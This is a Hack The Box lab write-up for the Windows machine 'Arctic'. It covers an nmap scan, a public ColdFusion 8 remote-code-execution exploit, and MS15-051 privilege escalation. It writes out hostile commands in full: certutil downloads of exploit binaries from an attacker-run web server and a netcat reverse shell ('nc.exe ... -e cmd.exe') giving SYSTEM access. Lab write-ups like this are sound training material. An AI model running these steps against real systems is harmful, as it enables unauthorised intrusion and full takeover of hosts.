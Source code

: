 ```yaml
---
layout: post
title: HTB Arctic Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/arctic/arctic.png
tags: [HTB]
---
```

![Arctic](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/arctic/arctic.png)

| Name | Arctic |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 22 Mar 2017 |
| DIFFICULTY | Easy |

# Port Scan

From the nmap scan below there are 3 ports open. The first and last one appears to be RPC and nmap could not identify what 8500 is.

```
# Nmap 7.92 scan initiated Mon May  2 16:37:58 2022 as: nmap -p- -oN nmapScan.txt -Pn 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

# Nmap done at Mon May  2 16:39:46 2022 -- 1 IP address (1 host up) scanned in 107.93 seconds
                                                                                        
```

# HTTP 8500

The first thing that we can try is HTTP, because this request went through we know this is a webserver of sorts.

![Arctic](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/arctic/6feb1764625e4c19a719ecb2aa0fdb0a.png)

Poking around the file system this is running Adobe ColdFusion 8

![Arctic](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/arctic/a5aefd5bb7834e8aba7347ded85dd546.png)

Googling "Adobe ColdFusion 8 Exploit" brings us to a [python script](https://www.exploit-db.com/exploits/50057) that will give us remote code execution. Looking at the code we need to make a change to the main function, changing the `lhost` to your kali ip

```python
if __name__ == '__main__':
    # Define some information
    lhost = 'KALI IP'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex
```

Now, let us run the exploit and from the output, we can see that it works and we get a shell!

```bash
┌──(kali㉿kali)-[~/htb/arctic]             
└─$ python3 50057.py                                                                     
                                               
Generating a payload...                                                                       
Payload size: 1496 bytes                       
Saved as: fe8145336bb4493b8aa8f4170238142b.jsp

[snip]

Printing some information for debugging...
lhost: 10.10.14.3
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: fe8145336bb4493b8aa8f4170238142b.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.11] 49300

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

# Root

Let's do some basic system enumeration by running `systeminfo`. We can see that this is a windows server 2008 R2 server running 6.1.7600

```
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```

There is a great GitHub [repo](https://github.com/SecWiki/windows-kernel-exploits) that has a collection of Windows Kernel exploits that we can use. Looking through the list MS15-051 will work on this box, and from prior knowledge this is a reliable exploit

![Arctic](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/arctic/984115b7681a4f948ce918e3b764608d.png)

We can click on this exploit and download "MS15-051-KB3045171.zip". Once it is extracted bring "ms15-051x64.exe" to our current working directory.

```
┌──(kali㉿kali)-[~/htb/arctic]
└─$ wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip

┌──(kali㉿kali)-[~/htb/arctic]
└─$ unzip MS15-051-KB3045171.zip 
Archive:  MS15-051-KB3045171.zip
   creating: MS15-051-KB3045171/
  inflating: MS15-051-KB3045171/ms15-051.exe  
  inflating: MS15-051-KB3045171/ms15-051x64.exe  
   creating: MS15-051-KB3045171/Source/
   creating: MS15-051-KB3045171/Source/ms15-051/
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.cpp  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.filters  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.user  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll64.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ReadMe.txt  
   creating: MS15-051-KB3045171/Source/ms15-051/Win32/
  inflating: MS15-051-KB3045171/Source/ms15-051/Win32/ms15-051.exe  
   creating: MS15-051-KB3045171/Source/ms15-051/x64/
  inflating: MS15-051-KB3045171/Source/ms15-051/x64/ms15-051x64.exe  
  inflating: MS15-051-KB3045171/Source/ms15-051.sln  
  inflating: MS15-051-KB3045171/Source/ms15-051.suo  

┌──(kali㉿kali)-[~/htb/arctic]
└─$ mv MS15-051-KB3045171/ms15-051x64.exe .
```

Now, let's host the exploit on a python webserver that we can use to transfer the exploit onto the machine `python3 -m http.server 80`. To transfer the file over we will go to `cd C:\Users\tolis` on the windows machine and run `certutil.exe -urlcache -f http://KALIIP/ms15-051x64.exe ms15-051x64.exe`.

```
C:\Users\tolis>certutil.exe -urlcache -f http://KALIIP/ms15-051x64.exe bad.exe                                                                                                          
certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe bad.exe                           
****  Online  ****                                                                            
CertUtil: -URLCache command completed successfully.
```

Now we can run this exploit and we can see that we can run commands as system!

```
C:\Users\tolis>bad.exe whoami                                                                 
bad.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3992 created.
==============================
nt authority\system
```

Taking this a step further we can get a reverse shell as system with netcat.

Download a netcat binary [here](https://eternallybored.org/misc/netcat/) and then move it to our current working directory that has the python webserver running, in my case, it is `~/htb/arctic`. Once the binary is in the directory make sure the python server is still running and use `certutil.exe` to transfer it over to the box like before

```
C:\Users\tolis>certutil.exe -urlcache -f http://KALIIP/nc.exe nc.exe
certutil.exe -urlcache -f http://10.10.14.3/nc.exe nc.exe                                                                                                                                   
****  Online  ****      
CertUtil: -URLCache command completed successfully.
                                               
```

And looking at our sever we can confirm the request

```
┌──(kali㉿kali)-[~/htb/arctic]                                                               
└─$ python3 -m http.server 80                                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                     
10.10.10.11 - - [02/May/2022 17:00:08] "GET /ms15-051x64.exe HTTP/1.1" 200 -
10.10.10.11 - - [02/May/2022 17:00:09] "GET /ms15-051x64.exe HTTP/1.1" 200 -
10.10.10.11 - - [02/May/2022 17:00:46] "GET /nc.exe HTTP/1.1" 200 -         
10.10.10.11 - - [02/May/2022 17:00:47] "GET /nc.exe HTTP/1.1" 200 -
```

Now using the exploit combined with netcat we can get a reverse shell. Make sure to set up a listener on kali `nc -lvnp 4445`, then run the command below

```
C:\Users\tolis>bad.exe "nc.exe KALIIP 4445 -e cmd.exe"
bad.exe "nc.exe 10.10.14.3 4445 -e cmd.exe
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3576 created.
==============================
```

And we can see that we are system!

```
┌──(kali㉿kali)-[~/htb/arctic]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.11] 49313
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis>whoami
nt authority\system
```
